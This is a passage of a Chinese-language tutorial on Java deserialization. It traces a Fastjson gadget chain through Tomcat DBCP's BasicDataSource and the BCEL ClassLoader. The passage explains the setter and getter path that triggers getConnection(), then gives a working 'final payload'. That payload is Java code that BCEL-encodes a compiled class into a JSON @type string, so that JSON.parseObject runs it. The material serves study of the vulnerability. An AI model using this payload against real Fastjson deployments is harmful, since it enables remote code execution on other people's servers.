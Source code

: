 driverClassName赋值为我们的字节码。

这里调用的是forName之前在双亲委派中也说到了

```java
    ClassLoader classLoader = ClassLoader.getSystemClassLoader();
    Class<?> person = classLoader.loadClass("Person");             //默认不初始化，对应forName的false
    Class<?> person = Class.forName("Person", false, classLoader); //两个代码作用相同
```

之后就要看driveClassLoader，driverClassName的赋值了。（看有没有对应的setter赋值方法）

正好是是有对应的setter方法的，我就不贴出来了。

最后还要看下怎么调用执行这个createConnectionFactory()方法，也要往上找，直到找到setter和getter方法。

![image-20240731192326952](https://s2.loli.net/2024/08/01/Ida2uxh9AlQicXP.png)

![image-20240731192347562](https://s2.loli.net/2024/08/01/9mBGHVKxcbzUTA4.png)

最后setter，getter方法也找到了。

这里选择getConnection()方法，用set方法的话还得引入新的类。这里调用get方法的话也是在toJSON调用（方法返回Connect，过不了判断，不会在生成反序列化器中调用），顺序很清晰。

更新payload

```java
public class FastJsonBcel {
    public static void main(String[] args) throws Exception{
        byte[] code = Files.readAllBytes(Paths.get("G:\\Java反序列化\\class_test\\Exp.class"));
        String encode = Utility.encode(code,true);
        ClassLoader classLoader = new ClassLoader();
        //classLoader.loadClass("$$BCEL$$"+encode).newInstance();


        BasicDataSource basicDataSource = new BasicDataSource();
        basicDataSource.setDriverClassName("$$BCEL$$"+encode);
        basicDataSource.setDriverClassLoader(classLoader);
        basicDataSource.getConnection();
    }
}
```

最终payload

```java
public class FastJsonBcel {
    public static void main(String[] args) throws Exception{
        byte[] code = Files.readAllBytes(Paths.get("G:\\Java反序列化\\class_test\\Exp.class"));
        String encode = Utility.encode(code,true);
        ClassLoader classLoader = new ClassLoader();
        //classLoader.loadClass("$$BCEL$$"+encode).newInstance();


//        BasicDataSource basicDataSource = new BasicDataSource();
//        basicDataSource.setDriverClassName("$$BCEL$$"+encode);
//        basicDataSource.setDriverClassLoader(classLoader);
//        basicDataSource.getConnection();

        //String s = "{\"@type\":\"com.sun.org.apache.bcel.internal.util.ClassLoader\"}";
        String s = "{\"@type\":\"org.apache.tomcat.dbcp.dbcp2.BasicDataSource\",\"DriverClassName\":\"$$BCEL$$" + encode +"\",\"DriverClassLoader\":{\"@type\":\"com.sun.org.apache.bcel.internal.util.ClassLoader\"}}";
        JSONObject jsonObject = JSON.parseObject(s);
    }
}
```
